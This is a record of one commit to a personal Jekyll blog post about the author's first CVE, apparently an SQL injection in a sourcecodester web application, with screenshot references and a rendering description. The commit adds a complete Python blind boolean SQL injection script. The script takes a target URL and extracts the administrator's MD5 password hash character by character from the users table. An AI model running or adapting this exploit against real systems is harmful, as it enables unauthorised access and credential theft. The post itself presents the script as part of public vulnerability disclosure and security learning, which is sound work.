

Before and after one commit to robsware/robsware.github.io, a Jekyll site: the page built from _posts/2023-09-01-firstcve.md, in a window 1280 px wide and 1400 px high, scrolled down 6199 px. Shown: the whole window, without its empty margins (285-994 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 6829 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2023-09-01-firstcve.md

````diff
--- a/_posts/2023-09-01-firstcve.md
+++ b/_posts/2023-09-01-firstcve.md
@@ -134,3 +134,39 @@ After about a month, I received my CVE ID, CVE-2023-30415
 I have emailed sourcecodester.com with a detailed explanation of the exploit and the proof of concept. Considerably way over 90 days have passed since, so this is me making it public as according to the reasonable disclosure procedure.
 
 Overall, I had a lot of fun finding my first CVE, as trivial as it was. It helped me developed my own confidence and ability to quickly scan code repos for common mistakes. I have been busy with other interests lately but I have managed to secure a decent amount of AppSec and code review engagements at work, so I have been doing my best to keep learning and hone my skills even if I am not actively hunting for CVEs. I would recommend any aspiring AppSec hacker to have a go at it, even if you don't manage to secure a CVE, just finding some vulnerabilities will do wonders for your confidence.
+
+Before I go, here is a more updated version of the exploit:
+
+```python
+import requests
+import sys
+
+session = requests.session()
+
+expected_size = 26845
+
+if len(sys.argv) < 2:
+    print("Usage: python exploit.py <URL>")
+    sys.exit(1)
+
+url = sys.argv[1]
+
+def get_char(session, pos):
+    for char in range(32, 126):
+        sql_payload = f'\' AND (ascii(substring((SELECT password FROM mpms_db.users WHERE id=1 LIMIT 1),{pos},1))={char})-- '
+        r = session.get(url + '/mpms/admin/?page=inquiries/view_inquiry&id=4' + sql_payload)
+        #print(len(r.content))
+        if len(r.content) == expected_size:
+            return chr(char)
+    print('Error at ' + str(char))
+    exit()
+
+def get_token(session):
+    token = ""
+    for pos in range(1, 33):
+        token += get_char(session, pos)
+    print("The Full MD5 password is " + str(token))
+    return token
+
+get_token(session)
+```
````
